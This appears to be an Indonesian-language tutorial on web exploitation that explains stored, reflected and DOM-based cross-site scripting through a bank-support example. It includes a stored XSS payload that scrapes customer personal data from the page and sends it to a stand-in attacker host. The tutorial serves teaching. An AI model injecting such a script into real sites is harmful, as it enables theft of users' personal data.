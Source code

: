 # Web Exploitation

![web-ex](img/web-exploitation.jpg)

Web Exploitation adalah sebuah kegiatan melakukan serangan terhadap suatu website. Serangan tersebut memiliki tujuan yang bermacam-macam mulai dari untuk mencuri data berharga, mengekploitasi resource dari web itu, sampai dengan melakukan testing keamanan suatu sistem. Ada bermacam-macam teknik yang bisa dilakukan untuk melakukan serangan terhadap suatu website.

## Cross-Site Scripting (XSS)
Serangan Cross-Site Scripting (XSS) dilakukan berdasarkan fakta bahwa suatu aplikasi web akan mengeksekusi script di browser dari user.

Serangan XSS sendiri memiliki beberapa kategori, dengan tiga kategori paling umum adalah :
- Stored (Kode disimpan di database sebelum dieksekusi)
- Reflected (Kode tidak disimpan di database, tetapi direfleksikan oleh server)
- DOM-based (Kode disimpan dan dieksekusi di browser)

### Stored XSS
Stored XSS mungkin adalah serangan XSS yang paling umum. Serangan ini cukup menarik karena biasanya merupakan XSS yang paling mudah dilacak, tetapi terkadang bisa menjadi salah satu yang paling berbahaya karena seringkali bisa memengaruhi banyak user.

![stored-xss](img/stored-xss.png)
*Salah satu contoh langkah-langkah serangan Stored-XSS*

Objek yang disimpan ke database bisa dilihat banyak user, di beberapa kasus semua user bisa terkena serangan ini jika objek global yang terinfeksi.

#### Sedikit contoh :
Ada suatu perusahaan yang memiliki website. Website tersebut menyediakan layanan keluhan pelanggan. Ada suatu pelanggan yang ingin membuat keluhan dengan isi seperti berikut :

```
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
Please improve your web application.
Other banks will show deposits instantly.
—Unhappy Customer, support.mega-bank.com
```
Karena sang pelanggan ingin menegaskan suatu kalimat dan tidak ada fitur untuk bold di layanan keluhan tersebut, karena pelanggan tersebut seorang programmer maka sang pelanggan mencoba menggunakan tag `<strong></strong>` untuk mendapatkan font yang ter-bold. Sehingga pesannya menjadi :
```
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
<strong>Please improve your web application.</strong>
Other banks will show deposits instantly.
—Unhappy Customer, support.mega-bank.com
```
Lalu tak lama CS dari perusahaan tersebut menjawab dengan pesan :
```
Hello, I am Sam with MegaBank support.
I am sorry you are unhappy with our application.
We have a scheduled update next month on the fourth that should increase the speed
at which deposits are reflected in our app.
By the way, how did you bold that text?
—Sam from Customer Support, support.mega-bank.com
```
Dari sini dapat diketahui bahwa input dari fitur tersebut tidak memiliki filter untuk tag html. Maka sang pelanggan tadi dapat melancarkan serangan dengan pesan seperti ini :
```javascript
I am not happy with the service provided by your bank.
I have waited 12 hours for my deposit to show up in the web application.
Please improve your web application.
Other banks will show deposits instantly.
<script>
/*
* Get a list of all customers from the page.
*/
const customers = document.querySelectorAll('.openCases');
/*
* Iterate through each DOM element containing the openCases class,
* collecting privileged personal identifier information (PII)
* and store that data in the customerData array.
*/
const customerData = [];
customers.forEach((customer) => {
    customerData.push({
        firstName: customer.querySelector('.firstName').innerText,
        lastName: customer.querySelector('.lastName').innerText,
        email: customer.querySelector('.email').innerText,
        phone: customer.querySelector('.phone').innerText
    });
});
/*
* Build a new HTTP request, and exfiltrate the previously collected
* data to the hacker's own servers.
*/
    const http = new XMLHttpRequest();
    http.open('POST', 'https://steal-your-data.com/data', true);
    http.setRequestHeader('Content-type', 'application/json');
    http.send(JSON.stringify(customerData);
</script>
—Unhappy Customer, support.mega-bank.com
```
Di pesan tersebut sang pelanggan menyisipkan script untuk mendapat data pelanggan di aplikasi tersebut.

### Reflected XSS
Reflected XSS beroperasi dengan cara yang mirip dengan Stored XSS, tetapi script tidak disimpan ke suatu database. Reflected XSS berefek ke kode dari client di browser langsung tanpa bergantung pada server untuk menyampaikan pesan dengan script untuk dieksekusi.

![reflected-xss](img/reflected-xss.png)
*Salah satu contoh Reflected-XSS*

Karena tidak disimpan di database, Reflected XSS lebih susah dipahami daripada Stored XSS.